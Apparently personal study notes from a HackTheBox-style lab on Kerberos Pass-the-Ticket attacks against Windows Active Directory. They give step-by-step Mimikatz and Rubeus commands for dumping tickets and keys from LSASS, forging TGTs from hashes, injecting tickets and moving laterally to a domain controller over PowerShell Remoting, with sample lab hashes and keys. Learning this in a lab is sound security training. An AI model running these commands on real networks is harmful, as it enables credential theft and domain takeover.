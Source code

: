 Kerberos
- Ticket Granting Ticket (TGT) is the first ticket obtained on Kerberos, permitting client to obtain additional Kerberos tickets/TGS
- Ticket Granting Service (TGS) requested by users who want to use a service

We need valid Kerberos ticket to do PtT attack.
- Can be TGT or TGS

# Getting a ticket
Scenario:
- Access to target and have gotten admin privileges, working with local admin rights
- Want to get access tickets/create new tickets

## Harvesting tickets from system from Windows
- Tickets processed and stored by LSAS
- To get ticket, must communicate with LSASS and request it
	- Local admin can get everything, non-admin only your ticket

Mimikatz
- `mimikatz.exe`
- `privilege::debug`
- `sekurlsa::tickets /export`
- Tickets will be saved as files with extension `.kirbi`
- Tickets that end with $ correspond to the computer acccount, which needs ticket to interact with the AD
- User tickets have user'sname followed by @ that separates service namd and domain
	- `[randomvalue]-username@service-domain.local.kirbi`

Rubeus
- `Rubeus.exe dump /nowrap`
- Prints tickets encoded in Base64 insteaded of giving a file

## Pass the Key / OverPass the Hash (forging a ticket)
- Converts a hash/key for a domain-joined user into a full TGT

1. Dump all Kerberos encryption keys
	- `mimikatz.exe`
	- `privilege::debug`
	- `sekurlsa:ekeys`
		- Collect the RC4_HMAC and AES256_HMAC keys
		- The RC4 ones are the NTLM hashes for associated user, AES is the AES key for Kerberos ticket specifically
2. Impersonate that user with mimikatz (we saw this in [[8. Pass the Hash]])
	- `mimikatz # sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f`
		- Assuming `plaintext` is user and `3f..` is the hash found
3. As that user, forge a ticket with Rubeus
	- `Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap`
		- Use the aes key from before here
		- Can actually also use /rc4 or /aes128 or /aes256 keys here
	- Will output the ticket in base64

# Passing The Ticket
Now that we have some Kerberos tickets, can use them

Mimikatz
- `mimikatz.exe`
- `privilege::debug`
- `ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"`

Rubeus
- Instead of step 3 from above, add int the `/ptt` flag to submit the ticket (TGT or TGS) to current logon session
	- `Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt`
		- Should say Ticket Successfully imported!
- Or, import into current session using `.kirbi` file form the disk
	- eg. Got a key with Mimikatz, saved under ....kirbi
	- `Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi`
- Can also pass as base64 format
	- `Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/VhggPxMIID7aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB2h0Yi5jb22jggO7MIIDt6ADAgESoQMCAQKiggOpBIIDpY8Kcp4i71zFcWRgpx8ovymu3HmbOL4MJVCfkGIrdJEO0iPQbMRY2pzSrk/gHuER2XRLdV/...SNIP...
	- Can convert `.kirbi` to Base64
		- `[Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))`


# Passing The Ticket (PowerShell Remoting)
- Idea is that if the user has (the below requirements), can authenticate him on OTHER machines (not just this one)
	- Regulat PtT on a single box = inject ticket -> use local/nearby services
	- PtT + PowerShell Remoting = inject ticket -> kerberos to WinRM on another omputer
- Requirements:
	- Admin permissions
	- or Member of Remote Management Users Group
	- or have explicit PowerShell Remoting permissions in session config
- Case: user account doesn't have admin privileges on a remote computer but is a member of **Remote Management Users group**
	- Can use Powershell Remoting to connect to that computer and execcute commands
	- eg. Have compromised Win01, and want to remote into DC01, which is a WinRM server
		- Within Win01, do Pass The Ticket, to get a valid TGT, gets TGS, then presents it to DC01 to login as john on DC01
	
Mimikatz
- `mimikatz.exe`
- `privilege::debug`
- `ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"`
- `exit`
- Then connect to the target machine as john
- `powershell`
- `Enter-PSSession -ComputerName DC01`


Rubeus
- `Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show`
- `Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt`
- Then connect to target machine as john
- `powershell
- `Enter-PSSession -ComputerName DC01`